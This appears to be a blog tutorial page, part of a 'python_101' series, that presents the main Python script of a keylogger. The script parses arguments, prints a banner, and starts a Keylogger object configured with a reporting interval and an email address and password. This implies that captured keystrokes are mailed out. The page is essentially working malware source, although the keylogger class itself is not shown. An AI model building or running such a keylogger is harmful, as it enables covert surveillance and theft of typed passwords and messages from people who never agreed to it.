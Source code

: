 ```yaml
---
title: Main method Invoking the Keylogger class
permalink: /permalinks/keylogger/main
categories: python_101
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
---
```


## This script invokes all methods and classes used by the keylogger.


- We make the code modular and much easy to read seperating the keylogger class and main files. 

- We use this class to invoke methods from the keylogger class to log and report.


### Code:

```python
#!/usr/bin/env python

import argparse
# import filename
import keylogger


# Parse Args
options = keylogger.get_arguments()
print(keylogger.banner)
# new object definition for class "Keylogger"
my_keylogger = keylogger.Keylogger(int(options.interval), str(options.email), str(options.password))
# Use the start method
my_keylogger.start()
```